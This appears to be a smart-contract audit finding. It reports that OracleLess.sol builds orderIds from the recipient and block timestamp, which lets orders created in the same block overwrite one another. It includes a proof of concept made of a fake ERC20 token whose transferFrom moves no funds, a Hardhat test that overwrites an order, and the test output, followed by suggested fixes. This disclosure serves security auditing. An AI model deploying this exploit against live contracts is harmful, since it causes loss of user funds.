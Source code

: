 Fantastic Pastel Sardine

Medium

# Malicious Sequencer Can Override Orders, Causing Loss of User Funds

### Summary

The missing use of a unique identifier in the `OracleLess.sol` contract causes potential loss of user funds for order creators. This happens as a malicious sequencer on Optimism can craft transactions to override orders with the same `recipient` in the same block by exploiting the `orderId` generation logic at [OracleLess.sol:52](https://github.com/sherlock-audit/2024-11-oku/blob/ee3f781a73d65e33fb452c9a44eb1337c5cfdbd6/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L52).  

### Root Cause

In the [`OracleLess.sol:52`](https://github.com/sherlock-audit/2024-11-oku/blob/ee3f781a73d65e33fb452c9a44eb1337c5cfdbd6/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L52), the `orderId` is generated using `recipient` and `block.timestamp`. This approach allows multiple transactions in the same block with the same `recipient` to overwrite entries in the `orders` mapping, as the `orderId` generated is not unique.  

### Internal pre-conditions

1. A user submits multiple `createOrder` transactions in the same block with different order data but the same `recipient`.  
2. The contract allows orders to be distinguished only by the `orderId` generated from the `recipient`.  

### External pre-conditions

1. A malicious sequencer on Optimism has access to the mempool and can reorder transactions within a block.  
2. A non-standard token is used in `procureTokens` that does not enforce `from` address validation in its `transferFrom` implementation.  

### Attack Path

1. The users submits  `createOrder` transactions in the block.  
2. The malicious sequencer observes these transactions in the mempool and crafts a malicious transaction using a non-standard token that bypasses `transferFrom` checks.  
3. The sequencer inserts their crafted transaction as the last transaction in the block for the same `recipient`, causing all earlier orders to be overridden in the `orders` mapping.  

### Impact

The affected users (order creators) suffer a complete loss of funds for the earlier orders, as their order data is overwritten by the malicious sequencer’s crafted transaction. The attacker could exploit this to manipulate the final state of the `orders` mapping and benefit from invalidating other users’ orders.  

### PoC

Add this fake ERC20 contract:
```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "../interfaces/openzeppelin/ERC20.sol";

contract MockERC20 is ERC20 {
    constructor() ERC20("MockERC20", "MockT", 18) {}

    function transfer(
        address to,
        uint256 amount
    ) public virtual override returns (bool) {
        emit Transfer(msg.sender, to, amount);
        return true;
    }

    function transferFrom(
        address from,
        address to,
        uint256 amount
    ) public virtual override returns (bool) {
        emit Transfer(from, to, amount);
        return true;
    }

    function permit(
        address owner,
        address spender,
        uint256 value,
        uint256 deadline,
        uint8 v,
        bytes32 r,
        bytes32 s
    ) public virtual override {
        emit Approval(owner, spender, value);
    }
}


```


Add following test to the end of `test\triggerV2\failure_ORACLE_LESS.ts` file:

```typescript

    it("Overide order data with same recipient", async () => {

        const MockERC20 = await ethers.getContractFactory("MockERC20");
        let mockToken_1 = await MockERC20.deploy();
        let mockToken_2 = await MockERC20.deploy();

        console.log("\nmockToken_1 = ", await mockToken_1.getAddress());
        console.log("mockToken_2 = ", await mockToken_2.getAddress());

        await network.provider.send("evm_setAutomine", [false]);
        // await network.provider.send("evm_setIntervalMining", [100]);

        const tx_1 = await s.OracleLess.connect(s.Steve).createOrder(
            // await s.WETH.getAddress(),
            await mockToken_1.getAddress(),
            await s.WETH.getAddress(),
            10,
            0,
            await s.Steve.getAddress(),
            25,
            false,//no permit
            "0x",
            { gasLimit: 300000 }
        );
        console.log("\ntx_1 Hash = ", tx_1.hash);


        const tx_2 = await s.OracleLess.connect(s.Andy).createOrder(
            await mockToken_2.getAddress(),
            await s.USDC.getAddress(),
            11,
            100,
            await s.Steve.getAddress(),
            15,
            false,//no permit
            "0x",
            { gasLimit: 300000 }
        );
        console.log("tx_2 Hash = ", tx_2.hash);

        await network.provider.send("evm_mine");

        console.log("\ngetPendingOrders = ", await s.OracleLess.getPendingOrders());

    })

```

the result:

```bash


mockToken_1 =  0x1960300F7D229230e0Ed757f6Aade81463143aD8
mockToken_2 =  0xA29303ad549A80f1bF4ACBF3835464AD4190407c

tx_1 Hash =  0x275445ca0382f358f7de489e4e33cb4da9bd551b031f92cbb0a793c401a6bd37
tx_2 Hash =  0x168f8bb7446e762cba07094fb754910cebb325ab3ab82f07ccdf817c7c37dd0c

getPendingOrders =  Result(2) [
  Result(7) [
    69272437643339962540633533754n,
    '0xA29303ad549A80f1bF4ACBF3835464AD4190407c',
    '0xFF970A61A04b1cA14834A43f5dE4533eBDDB5CC8',
    11n,
    100n,
    '0x15d34AAf54267DB7D7c367839AAf71A00a2C6A65',
    15n
  ],
  Result(7) [
    69272437643339962540633533754n,
    '0xA29303ad549A80f1bF4ACBF3835464AD4190407c',
    '0xFF970A61A04b1cA14834A43f5dE4533eBDDB5CC8',
    11n,
    100n,
    '0x15d34AAf54267DB7D7c367839AAf71A00a2C6A65',
    15n
  ]
]
    ✔ Overide order data with same recipient (44ms)


```




### Mitigation

1. Use `msg.sender` instead of `recipient` for generating the `orderId` to ensure uniqueness based on the transaction initiator.  
2. Introduce a user-supplied nonce or an incrementing counter for each user to ensure uniqueness of `orderId` even within the same block.  
3. Validate that `procureTokens` only accepts tokens with standard-compliant `transferFrom` implementations to prevent bypassing the `from` address validation.  